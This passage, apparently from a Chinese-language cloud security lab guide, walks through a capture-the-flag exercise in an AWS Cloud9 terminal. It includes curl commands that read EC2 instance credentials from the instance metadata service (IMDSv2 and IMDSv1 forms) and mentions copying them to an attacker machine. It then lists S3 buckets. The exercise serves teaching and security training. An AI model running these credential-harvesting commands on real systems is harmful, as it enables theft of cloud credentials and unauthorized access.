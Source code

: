     图 7.40 – 打开一个新的终端

    这应该会打开一个类似于*图 7.41*所示的终端：

    ![](img/B19755_07_41.jpg)

    图 7.41 – 我们将在此终端中运行命令来检索存储在 S3 存储桶中的标志

    在这个终端中，我们将直接运行命令来检索存储在 S3 存储桶中的标志。然而，如果我们需要从元数据服务中提取凭证（并假设将其复制到攻击者机器），我们可以运行以下命令：

    ```
    TOKEN=$(curl -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 300" http://169.254.169.254/latest/api/token)curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
    ```

    在这里，我们假设实例配置了**实例元数据服务版本** **2**（**IMDSv2**），并运行命令。

注意

或者，如果实例配置了 IMDSv1，我们可以改用以下命令：**curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance**。

1.  运行以下命令（在**$**符号后）列出帐户中的 S3 存储桶：

    ```
    aws s3 ls
    ```

    在 Cloud9 环境中找到我们在之前步骤中创建的 S3 存储桶的名称。

1.  接下来，运行以下命令列出 S3 存储桶中的文件：

    ```
     S3_BUCKET=<S3 BUCKET NAME>
    aws s3 ls s3://$S3_BUCKET
    ```
